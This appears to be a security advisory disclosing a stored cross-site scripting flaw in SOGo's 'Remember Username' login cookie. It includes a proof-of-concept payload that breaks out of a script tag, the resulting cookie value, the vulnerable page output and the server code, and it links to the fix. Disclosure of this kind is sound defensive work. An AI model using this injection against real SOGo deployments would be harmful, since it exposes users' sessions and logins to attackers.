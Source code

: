                                             Stored XSS in cookie Alinto/SOGo 

Researchers: Daniil Khomichenok, Alexander Klimenko

Affected Versions < 5.12.3

Date: 01.10.2025

 **********************************************************************************************
 
When the **"Remember Username"** feature is enabled, a base64-encoded field is added to the browser cookie. 

This value is obtained from the **"userName"** parameter in the **POST** request to the **/SOGo/connect** endpoint.

Server response contains b64 encoded XSS payload with set cookie:

**_Set-Cookie:_ SOGoLogin=dGVzdDIyMkBxYXRlc3Qub2YuYnk8L3NjcmlwdD48c2NyaXB0PmFsZXJ0KCcxMjMnKTwvc2NyaXB0Pg%3D%3D; expires=Sun, 02-Nov-2025 09:58:23 GMT;**

Adding the following value to the POST request for the **"userName"** parameter:

<sub> test222@victim.com</script><script>alert('123')</script> </sub>

which contains a **JavaScript injection** that is **_executed_** when the user revisits the authentication page and is stored in the **_"SOGoLogin"_ cookie in the user's browser**.


Code of Auth page, which contains injection:

    <script type="text/javascript">
    var cookieUsername = "test222@victim.com</script><script>alert('123')</script>";
    var language = 'English';
    var loginHint = ''
    </script>

Code of login remember set-cookie which accepts XSS injections as a paramteter value:

    if (rememberLogin)
      [response addCookie: [self _cookieWithUsername: [params objectForKey: @"userName"]]];
      else
      [response addCookie: [self _cookieWithUsername: nil]];


Fix: https://github.com/Alinto/sogo/commit/9e20190fad1a437f7e1307f0adcfe19a8d45184c

